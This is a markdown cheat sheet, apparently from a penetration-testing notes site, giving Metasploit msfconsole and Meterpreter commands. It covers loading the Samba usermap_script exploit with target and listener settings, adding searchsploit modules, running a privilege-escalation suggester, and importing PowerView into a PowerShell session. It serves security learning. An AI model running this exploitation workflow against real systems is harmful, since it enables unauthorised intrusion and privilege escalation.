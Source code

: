 ```yaml
---
title: "Metasploit"
date: 2024-6-28
tags: ["Exploitation", "Post-Exploitation", "Searchsploit", "Metasploit", "Vulnerability Scanning", "Exploit", "Meterpreter", "Windows", "Msfconsole"]
---
```


{{< tab set1 tab1 active >}}msfconsole{{< /tab >}}
{{< tab set1 tab2 >}}meterpreter{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start msfconsole

```console
msfconsole -q
```

#### Basic Commands

```console
# Return to previous page
back
```

```console
# Upgrade session
sessions -u
```

```console
# quit metasploit
exit
```

#### Search Exploit

```console
# For example: samba
search samba
```

```console
# Choose by #num
use 15
```

```console
# Choose by full path
use exploit/multi/samba/usermap_script
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
# Run exploit
run 
```

<small>*Hint: If you see a session is opened, but sit at an empty line, just type your cmd and press enter*</small>

#### Add scripts from searchsploit

```console
mkdir -p ~/.msf4/modules/exploits/linux
```

```console
mkdir -p ~/.msf4/modules/exploits/windows
```

```console
# For example a linux script
cp 12345.rb ~/.msf4/modules/exploits/linux
```

```console
# Inside msfconsole
reload_all
```

```console
# Search
search 12345
```

#### Fix no search result

```console
# Inside msfconsole, check db status
db_status
```

```console
sudo service postgresql start
```

```console
update-rc.d postgresql enable
```

```console
sudo msfdb init
```

```console
# Go bask to msfconsole and check again
db_status
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Basic Commands

```console
# Return from meterpreter
background
```

#### Use Exploit

```console
# Quick look of potential privesc (Windows)
# Need to return from meterpreter
use post/multi/recon/local_exploit_suggester
```

```console
# Select opened session
set session 1
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
# Run exploit
run 
```

#### Use powershell

```console
# Use powershell module
use powershell
```

```console
# Import module
powershell_import /usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

```console
# Spawn powershell session
powershell_shell 
```

{{< /tabcontent >}}
